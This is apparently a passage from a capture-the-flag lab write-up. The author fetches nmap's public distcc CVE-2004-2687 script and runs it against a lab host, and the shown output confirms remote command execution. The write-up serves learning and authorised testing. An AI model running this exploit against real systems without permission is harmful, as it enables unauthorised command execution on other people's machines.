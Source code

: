 I’ll download it into `/usr/share/nmap/scripts/`:

```

root@kali# wget https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse -O /usr/share/nmap/scripts/distcc-exec.nse
--2020-04-07 14:38:26--  https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse
Resolving svn.nmap.org (svn.nmap.org)... 45.33.49.119, 2600:3c01::f03c:91ff:fe98:ff4e
Connecting to svn.nmap.org (svn.nmap.org)|45.33.49.119|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3519 (3.4K) [text/plain]
Saving to: ‘/usr/share/nmap/scripts/distcc-exec.nse’

/usr/share/nmap/scripts/distcc-exec.nse    100%[=======================================================================================>]   3.44K  --.-KB/s    in 0s      

2020-04-07 14:38:27 (54.8 MB/s) - ‘/usr/share/nmap/scripts/distcc-exec.nse’ saved [3519/3519]

```

Now I can run it and get results:

```

root@kali# nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='id'"
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 14:38 EDT
Nmap scan report for 10.10.10.3
Host is up (0.014s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-exec: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|_      https://distcc.github.io/security.html

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds

```

